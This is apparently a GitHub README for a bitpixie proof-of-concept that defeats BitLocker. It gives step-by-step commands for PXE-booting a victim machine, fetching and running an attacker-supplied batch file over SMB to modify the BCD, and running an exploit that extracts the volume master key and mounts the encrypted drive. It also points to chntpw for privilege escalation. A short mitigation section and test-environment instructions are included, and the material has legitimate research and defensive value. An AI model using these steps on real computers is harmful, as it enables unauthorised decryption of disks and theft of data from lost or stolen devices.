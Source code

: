 # bitpixie Proof of Concept

## General concept of the attack
The Bitpixie bug was originally discovered by [Rairii](https://github.com/Wack0) and assigned CVE-2023-21563.
The first public demonstration of the full attack was performed by th0mas at 38c3: ["Windows BitLocker: Screwed without a Screwdriver"](https://media.ccc.de/v/38c3-windows-bitlocker-screwed-without-a-screwdriver).
Large parts of this repository are based on his work, that he also published as an article: ["Windows BitLocker -- Screwed without a Screwdriver"](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/) This article also explains potential mitigations.

[Marc André Tanner](https://github.com/martanne/bitpixie) also implemented the bitpixie exploit, you might want to check out his repository!

## Prerequisites and building process
In order to carry out this attack, the encrypted computer must meet certain requirements.
- It must use BitLocker without pre-boot authentication.
- It must be able to boot in PXE mode. Ideally, the PXE boot option is not disabled in the bios. On some systems, this attack may work even if PXE boot is disabled, as PXE boot can be enabled by connecting an external network card.
- The PCR Validation must not include `4`. Check with `manage-bde -protectors -get c:` This is default behaviour.

### Software requirements for the attacker machine
The following packages have to be installed on the attacker machine:
- dnsmasq
- impacket-smbserver
- (hivexregedit)

For debian based systems:
```bash
sudo apt install dnsmasq libwin-hivex-perl python3-impacket
```

To build the initramfs, clone the repository and execute build.sh:
```
$ git clone --depth 1 https://github.com/andigandhi/bitpixie
$ cd bitpixie
$ ./build.sh [-d|--debug]
```

See the chapter [`Building the initrd`](#building-the-initrd) for more
information.

> [!note]
> The repository with a prebuilt alpine initramfs can be found in the releases section.

## How to perform the attack
The attack consists of two separate steps.
First, a modified BCD configuration file must be created specifically for the victim.
The next step is to boot the target via PXE using the modified BCD file, so that the VMK can be extracted from memory.

The TFTP server can be started with the script `start-server.sh`:
```
Starting the SMB server for exchanging the BCD file:
$ ./start-server.sh smb <interface>

Starting the TFTP and DHCP server for PXE booting:
$ ./start-server.sh pxe <interface>
```

To boot into the linux system through PXE-boot, press Restart while holding down the Shift key.
This will reboot the machine into Advanced Boot Options.

### Extracting the BCD file
The BCD file can be exported using `bcdedit` on the victims machine.
If you are already local Administrator you can directly extract and modify the BCD file.

Otherwise you can open a cmd.exe from within the Advanced Boot Options by clicking *Troubleshoot -> Advanced Option -> Command line (-> Skip this drive)* and enter the following commands.

```
wpeutil initializenetwork
net use S: \\10.13.37.100\smb
cd %TEMP%
copy S:\create-bcd.bat .
.\create-bcd.bat
```

The modified BCD file will be directly moved to the attacker machine so you can directly start performing the actual bitpixie attack.

![BCD File Transfer](images/grab-bcd-smb.gif)

### Breaking BitLocker
Start the TFTP server in exploit mode: `./start-server.sh exploit <interface>`.

In the Advanced Boot Options click on `Use a device` and select IPv4 PXE Boot.
The PXE boot process should start and finally drop into the Alpine initramfs.

Log in as root and perform the bitpixie exploit on the victim machine:
```
initrd:~# run-exploit /dev/sda3
```
The BitLocker partition should now be mounted at /root/mnt.
If it did not work, reboot and try it again. Sometimes the VMK is not detected / overwritten.

> [!note]
> The alpine initramfs also has [chntpw](https://pkgs.alpinelinux.org/package/edge/community/x86_64/chntpw) installed for easy privilege escalation!

Don't forget to unmount the file system after performing your changes: `umount /root/mnt`!

![VMK Extraction](images/run-exploit.gif)


## Mitigations that work
- Use BitLocker with Pre Boot Authentication (TPM+PIN) (Preferred way, since it also prevents a bunch of other attacks against BitLocker.)
- Apply patch [KB5025885](https://support.microsoft.com/en-us/topic/how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) as described in the Microsoft guideline.
- Disable UEFI network stack to completely disable PXE (If none of the above is possible)


## How to set up a test environment
### Setting up QEMU
This exploit can be tested using QEMU.

I installed Windows 11 ([Tiny 11](https://github.com/ntdevlabs/tiny11builder)) on a newly created disk, installed all security patches and activated BitLocker.
Before creating the virtual machine, I had to edit the loader and change it to `/usr/share/OVMF/OVMF_CODE_4M.ms.fd` as shown below.

![VirtManager Settings](images/qemu-machine-settings.png)

After enabling BitLocker, change the model type of the network interface to `virtio` and set the ROM to "no" (see [this bug](https://bugs.launchpad.net/maas/+bug/1789319)).
The XML of the network interface should look lke this:
```
<interface type="network">
  <model type="virtio"/>
  <rom enabled="no"/>
  [...]
</interface>
```

### Building the initrd
The complete `bitpixie-initramfs.[gz,xz]` can be built using the script
`./build [-d|--debug]`. If the `--debug` flag is used the temporary rootfs
directory will be not deleted in order to manually examinate it via e.g. `sudo
[chroot|arch-chroot] /path/to/temp/initramfs sh`. The final gzipped initramfs
is automatically transfered to the `pxe-server/` directory.

The initramfs can be tested locally on the terminal via the example QEMU
command:

```
# Install qemu-system-x86_64 (minimal configuration)
# $ apt install qemu-system-x86
# Note: For more information see e.g. https://wiki.ubuntuusers.de/QEMU/
qemu-system-x86_64 \
  -m 1G -enable-kvm  \
  -kernel pxe-server/linux \
  -initrd pxe-server/bitpixie-initramfs.gz \
  -append "console=ttyS0" \
  -nographic
```

> [!NOTE]  
> There are currently two user: `root` and `bitpix`. Login as `bitpix`.

If a simple QEMU ethernet connection is required, the following flags can be
added:

```
# Extend QEMU with network capacity
# For more information see:
#   https://wiki.gentoo.org/wiki/QEMU/Options#Networking
#   https://wiki.archlinux.org/title/QEMU#Networking
#   https://wiki.qemu.org/Documentation/Networking
#
qemu-system-x86_64 \
  ... \
  -netdev user,id=net0 -device virtio-net-pci,netdev=net0
```

> [!NOTE]  
> If a specific functionality is missing then this could be due to a not loaded
> driver. All loaded drivers can be displayed with `lsmod` and loaded with
> `modprobe DRIVER`.
> To brutally load all modules (and probably trigger kernel crashes) the
> following command can be used:
> ```
>   $ find /lib/modules/5.14.0-1-amd64/ -name '*.ko' -exec sh -c 'modprobe $(basename {} | cut -d'.' -f1)' sh {} \;
> ```

## Alternative Method of obtaining the BCD (not recommended)
Boot the victim system into the initramfs using PXE boot: `./start-server.sh get-bcd <interface>`
On the victim machine you can identify the drive containing the Windows installation (often /dev/sda).

On the attacker machine execute the BCD extractor script:
```
$ ./grab-bcd.sh /dev/sda
[+] Info: Grabbing disk and partition GUIDs via SSH...
[...]
[+] Info: Created modified BCD file: pxe-server/Boot/BCD
```
This script obtains the disk and partition GUID from the victim computer and creates a registry patch file.
Afterwards the BCD-file gets patched and copied to pxe-server/Boot/BCD.
> [!note]
> The template file file needs to be served as `Boot\BCD` via PXE.

Now you are ready to perform the actual attack!
Reboot the victim system into the startup settings again.
